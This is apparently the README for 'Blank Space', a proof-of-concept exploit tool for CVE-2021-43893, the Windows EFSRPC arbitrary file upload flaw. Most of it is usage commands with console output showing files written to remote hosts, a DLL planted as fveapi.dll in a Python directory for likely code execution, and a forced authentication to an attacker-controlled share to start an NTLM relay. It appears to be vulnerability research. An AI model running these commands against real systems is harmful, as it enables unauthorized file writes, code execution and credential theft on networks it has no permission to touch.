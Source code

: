 # Blank Space

Blank Space is a refactoring of James Forshaw's [original proof of concept](https://www.youtube.com/watch?v=e-ORhEE9VVg) for [CVE-2021-43893](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-43893), [EFSRPC arbitrary file upload privilege escalation](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-43893). Blank Space can create arbitrary files on a remote host that is using unconstrained delegation if it isn't patched for CVE-2021-43893. File creation is done using the privileges of the remote user, so code execution is a bit speculative but defintely a possibility. Blank Space can also be used to begin a relay attack even after CVE-2021-43893 has been patched. Similarly, admin users can overwrite existing files, although that arguably doesn't cross a security boundary.

Examples of both code execution, relay attacks, and file destruction are available in a Rapid7 blog I wrote. The PoC assuming the executing user can authenticate to the remote host.


## Usage

### Options

Blank Space always requires a remote host (`--rhost`) and a remote filename (`--filename`). CVE-2021-43893 is sort of specific to `\\.\C:\` filepaths, but I've left it up to the user how they define a path (e.g. `\\localhost\sharename` or `\\remotehost\share` are valid options depending on what you are doing).


```
C:\Users\lowlevel\blankspace\Release>.\blankspace.exe
 ____    ___                    __          ____
/\  _`\ /\_ \                  /\ \        /\  _`\
\ \ \L\ \//\ \      __      ___\ \ \/'\    \ \,\L\_\  _____      __      ___     __
 \ \  _ <'\ \ \   /'__`\  /' _ `\ \ , <     \/_\__ \ /\ '__`\  /'__`\   /'___\ /'__`\
  \ \ \L\ \\_\ \_/\ \L\.\_/\ \/\ \ \ \\`\     /\ \L\ \ \ \L\ \/\ \L\.\_/\ \__//\  __/
   \ \____//\____\ \__/.\_\ \_\ \_\ \_\ \_\   \ `\____\ \ ,__/\ \__/.\_\ \____\ \____\
    \/___/ \/____/\/__/\/_/\/_/\/_/\/_/\/_/    \/_____/\ \ \/  \/__/\/_/\/____/\/____/
                                                        \ \_\
                                                         \/_/
option "rhost" is required
Available options:
  -h, --help              Produces a help message
  -r, --rhost arg         The remote host to target
  -f, --filename arg      The name of the file to create/write to
  -s, --input-string arg  A string of data to write
  -i, --input-file arg    A string of data to write
  --relay                 Initiate NTLM hash leak
  --directory             Create a directory
```

### Creating a remote file using a file

```
C:\ProgramData>.\blankspace.exe -r vulnerable.okhuman.ninja -f \\.\C:\Python27\fveapi.dll -i ./dll_inject64.dll
 ____    ___                    __          ____
/\  _`\ /\_ \                  /\ \        /\  _`\
\ \ \L\ \//\ \      __      ___\ \ \/'\    \ \,\L\_\  _____      __      ___     __
 \ \  _ <'\ \ \   /'__`\  /' _ `\ \ , <     \/_\__ \ /\ '__`\  /'__`\   /'___\ /'__`\
  \ \ \L\ \\_\ \_/\ \L\.\_/\ \/\ \ \ \\`\     /\ \L\ \ \ \L\ \/\ \L\.\_/\ \__//\  __/
   \ \____//\____\ \__/.\_\ \_\ \_\ \_\ \_\   \ `\____\ \ ,__/\ \__/.\_\ \____\ \____\
    \/___/ \/____/\/__/\/_/\/_/\/_/\/_/\/_/    \/_____/\ \ \/  \/__/\/_/\/____/\/____/
                                                        \ \_\
                                                         \/_/
[+] Creating EFS RPC binding handle to vulnerable.okhuman.ninja
[+] Attempting to write to \\.\C:\Python27\fveapi.dll
[+] Encrypt the empty remote file...
[+] Reading the encrypted remote file object
[+] Read back 1244 bytes
[+] Writing 92160 bytes of attacker data to encrypted object::$DATA stream
[+] Decrypt the the remote file
[!] Success!

C:\ProgramData>
```

### Creating a remote file using a string

```
C:\Users\lowlevel\blankspace\Release>.\blankspace.exe -r 10.0.0.6 -f \\.\C:\ProgramData\hello -s "hello world!"
 ____    ___                    __          ____
/\  _`\ /\_ \                  /\ \        /\  _`\
\ \ \L\ \//\ \      __      ___\ \ \/'\    \ \,\L\_\  _____      __      ___     __
 \ \  _ <'\ \ \   /'__`\  /' _ `\ \ , <     \/_\__ \ /\ '__`\  /'__`\   /'___\ /'__`\
  \ \ \L\ \\_\ \_/\ \L\.\_/\ \/\ \ \ \\`\     /\ \L\ \ \ \L\ \/\ \L\.\_/\ \__//\  __/
   \ \____//\____\ \__/.\_\ \_\ \_\ \_\ \_\   \ `\____\ \ ,__/\ \__/.\_\ \____\ \____\
    \/___/ \/____/\/__/\/_/\/_/\/_/\/_/\/_/    \/_____/\ \ \/  \/__/\/_/\/____/\/____/
                                                        \ \_\
                                                         \/_/
[+] Creating EFS RPC binding handle to 10.0.0.6
[+] Attempting to write to \\.\C:\ProgramData\hello
[+] Encrypt the empty remote file...
[+] Reading the encrypted remote file object
[+] Read back 1244 bytes
[+] Writing 12 bytes of attacker data to encrypted object::$DATA stream
[+] Decrypt the the remote file
[!] Success!

C:\Users\lowlevel\blankspace\Release>
```


### Triggering a relay

```
C:\ProgramData>blankspace.exe -r yeet.okhuman.ninja -f \\10.0.0.3\r7\r7 --relay
 ____    ___                    __          ____
/\  _`\ /\_ \                  /\ \        /\  _`\
\ \ \L\ \//\ \      __      ___\ \ \/'\    \ \,\L\_\  _____      __      ___     __
 \ \  _ <'\ \ \   /'__`\  /' _ `\ \ , <     \/_\__ \ /\ '__`\  /'__`\   /'___\ /'__`\
  \ \ \L\ \\_\ \_/\ \L\.\_/\ \/\ \ \ \\`\     /\ \L\ \ \ \L\ \/\ \L\.\_/\ \__//\  __/
   \ \____//\____\ \__/.\_\ \_\ \_\ \_\ \_\   \ `\____\ \ ,__/\ \__/.\_\ \____\ \____\
    \/___/ \/____/\/__/\/_/\/_/\/_/\/_/\/_/    \/_____/\ \ \/  \/__/\/_/\/____/\/____/
                                                        \ \_\
                                                         \/_/
[+] Creating EFS RPC binding handle to yeet.okhuman.ninja
[+] Sending EfsRpcDecryptFileSrv for \\10.0.0.3\r7\r7
[-] EfsRpcDecryptFileSrv failed with status code: 53
[+] Network path not found error received!
[!] Success! Thanks, James!

C:\ProgramData>
```


## Credit

* James Forshaw - [Original issue discovery and proof of concept](https://bugs.chromium.org/p/project-zero/issues/detail?id=2228)
* [Taylor Swift](https://www.youtube.com/watch?v=e-ORhEE9VVg)
